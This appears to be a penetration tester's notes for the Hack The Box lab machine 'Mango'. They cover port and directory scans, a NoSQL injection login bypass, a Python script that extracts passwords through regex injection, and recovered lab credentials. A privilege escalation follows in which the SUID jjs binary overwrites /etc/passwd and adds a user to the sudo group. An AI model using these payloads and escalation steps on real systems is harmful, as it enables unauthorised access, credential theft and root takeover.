







# Summary


## about target

tip:  10.129.1.219

hostname:  Mango

Difficulty:  Medium


## about attack

+ mango db, nosql injection and exploit.
+ linux privesc tech: add user to passwd, copy bash to tmp and add suid, add uesr to sudo group, reverse shell. 
+ suid privesc, jjs


**attack note**

```bash
Mango / 10.129.1.219

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a88fd96fa6e4ee56e3ef54546d560cf5 (RSA)
|   256 6a1cba891eb0572ffe63e1617289b4cf (ECDSA)
|_  256 9070fb6f38aedc3b0b316864b04e7dc9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request

----Interesting
subdomain, staging-order.mango.htb
eamil and user, admin@mango.htb

admin:t9KcS3>!0B#2
mango:h3mXK8RhU~f{]f5H

----Enum

-- http 80
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x php,txt

-- http 443
gobuster dir -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u https://$tip -o gobuster-443.log  -x php,txt

-- http subdomain
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://staging-order.mango.htb -o gobuster-subdomain.log  -x php,txt

----Exploit


```


# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a88fd96fa6e4ee56e3ef54546d560cf5 (RSA)
|   256 6a1cba891eb0572ffe63e1617289b4cf (ECDSA)
|_  256 9070fb6f38aedc3b0b316864b04e7dc9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 400 Bad Request
```


## http enum

dir scan

```bash
-- http 80
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip -o gobuster.log  -x php,txt

-- http 443
gobuster dir -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u https://$tip -o gobuster-443.log  -x php,txt
```


port 443, found this, nothing valuable.

https://10.129.1.219/analytics.php


port 443, ssl cert found domain.





http://staging-order.mango.htb/

login page.




Admin:password not work.


read the walkthrough,  nosql injection.


# Exploit


## nosql injection 

nosql injection authentication bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#authentication-bypass

```bash
username[$ne]=admin&password[$ne]=password&login=login
```





```python

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://staging-order.mango.htb/index.php"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='username=%s&password[$regex]=^%s&login=login' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c

```

got password.




enum script 2 

https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration

```bash
python nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -op login:login -ep username -m POST

python nosqli-user-pass-enum.py -u http://staging-order.mango.htb/index.php -up username -pp password -op login:login -ep password -m POST

```


got user and password.

```bash
admin:t9KcS3>!0B#2
mango:h3mXK8RhU~f{]f5H
```


## ssh

ssh admin, failed. ssh mango, got shell.

```bash
cat /etc/ssh/sshd_config
```

admin not allowed to connect ssh.




# Privesc

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

```


## Local enum

suid file, jjs; /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs

```bash
find / -user root -perm -4000 2>/dev/null

```


## system

run jjs to add user.

```bash
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("/etc/passwd");
fw.write("hello:$1$hello$4mkw3HovqvIQpGIJM9AlP/:0:0::/root/:/bin/bash");
fw.close();' | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```




add admin to sudo group. usermod no in path, use /usr/sbin/usermod

```bash
echo "Java.type('java.lang.Runtime').getRuntime().exec('/usr/sbin/usermod -aG sudo admin').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```


exit to mango and su to admin, then sudo to root.

```bash
su - admin

sudo su -
```




## proof

```bash


```


